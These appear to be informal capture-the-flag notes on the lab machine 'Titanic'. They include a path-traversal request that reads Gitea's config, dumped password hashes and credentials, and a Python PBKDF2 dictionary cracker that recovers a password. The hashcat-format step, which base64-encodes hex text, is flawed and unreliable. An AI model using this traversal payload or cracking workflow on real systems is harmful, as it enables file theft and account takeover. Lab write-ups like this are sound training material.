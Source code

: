 ___


# only 2 open ports
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63



endpoints: 

POST /book 

with booking info

GET /download?ticket=test.json

for booking confirmation

.htaccess is the file i need to read where is it though 

where is it

I did not enumerate SUBDOMAINS !!!!!!!!!!!!!!

dev subdomain found



gitea version
Version: 1.22.1

I can read files from the server:
gitea is running 
apache is running


![[Pasted image 20250227202608.png]]
users in gitea

version: '3.8'



is administrator account SQL creds 

services:
  mysql:
    image: mysql:8.0
    container_name: mysql
    ports:
      - "127.0.0.1:3306:3306"
    environment:
      MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'
      MYSQL_DATABASE: tickets
      MYSQL_USER: sql_svc
      MYSQL_PASSWORD: sql_password
    restart: always


yml for gitea

version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always


# foken found it mate

GET /download?ticket=../../../../../../../../../../../home/developer/gitea/data/gitea/conf/app.ini HTTP/1.1


# look at this database path

[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD = 
LOG_SQL = false
SCHEMA = 
SSL_MODE = disable


downloaded that cause i have creds

# open file
 sqlite3 gitea.db

.tables
SELECT * FROM table_name;


# select values

sqlite> SELECT email,salt,passwd,passwd_hash_algo FROM user;
root@titanic.htb|2d149e5fbd1b20cf31db3e3c6a28fc9b|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50
developer@titanic.htb|8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50
hacker123@hacker.fr|3d36008a67cf0cba3fada101ca42d6b4|0163f6b9f400e2befc761f885b94d04d0ff9b21fa8d910db74b0e299a274d4d3b2617e80512efa10b0688531f5ee12444da0|pbkdf2$50000$50
test@outlook.com|948d6eb8f942df63b77b1db66f8f2c1f|35edf54b3a8f5b878440612d23f786cc196c7189cfd1ecf8c74d0f69eaf6879104368ab907ae1871d9fbfb58f4ad85f33d5c|pbkdf2$50000$50

┌[ew☮ew]-(~/box/titanic)
└> echo '2d149e5fbd1b20cf31db3e3c6a28fc9b' | base64 
MmQxNDllNWZiZDFiMjBjZjMxZGIzZTNjNmEyOGZjOWIK
┌[ew☮ew]-(~/box/titanic)
└> echo 'cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136' | base64
Y2JhMjBjY2Y5MjdkM2FkMDU2N2I2ODE2MTczMmQzZmJjYTA5OGNlODg2YmJjOTIzYjQwNjJhMzk2
MGQ0NTljMDhkMmRmYzA2M2IyNDA2YWM5MjA3Yzk4MGM0N2M1ZDAxNzEzNgo=


FORMAT HASHCAT wants:

sha256:50000:MmQxNDllNWZiZDFiMjBjZjMxZGIzZTNjNmEyOGZjOWIK:Y2JhMjBjY2Y5MjdkM2FkMDU2N2I2ODE2MTczMmQzZmJjYTA5OGNlODg2YmJjOTIzYjQwNjJhMzk2MGQ0NTljMDhkMmRmYzA2M2IyNDA2YWM5MjA3Yzk4MGM0N2M1ZDAxNzEzNgo=


# there r 2 docker containers running on the machine 
1) mysql
2) gitea




# this script cracked it so bullshit:

# this is what chatGPT said
### **Why Does Your Python Script Seem Faster?**

1. **Python only checks passwords sequentially** from the dictionary.
2. **If the correct password is early in the file, it stops quickly**.
3. **Hashcat is trying to be efficient at scale**, checking passwords in bulk, which isn't efficient for PBKDF2.

import hashlib
import binascii
def pbkdf2_hash(password, salt, iterations=50000, dklen=50):
    hash_value = hashlib.pbkdf2_hmac(
        'sha256',
        password.encode('utf-8'),
        salt,
        iterations,
        dklen
    )
    return hash_value
def find_matching_password(dictionary_file, target_hash, salt, iterations=50000, dklen=50):
    target_hash_bytes = binascii.unhexlify(target_hash)
    with open(dictionary_file, 'r', encoding='utf-8') as file:
        for line in file:
            password = line.strip()
            hash_value = pbkdf2_hash(password, salt, iterations, dklen)
            if hash_value == target_hash_bytes:
                print(f"Found password: {password}")
                return password
    print("Password not found.")
    return None

# provide stuff
salt = binascii.unhexlify('8bf3e3452b78544f8bee9400d6936d34')
target_hash = 'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56'
dictionary_file = '/home/ew/Documents/wordlists/rockyou.txt'
find_matching_password(dictionary_file, target_hash, salt)


 
 
 
 Found password: 25282528


if you do strings on the binary then its jover you see that the script is copying the root flag to the temp dir so then just read that 



























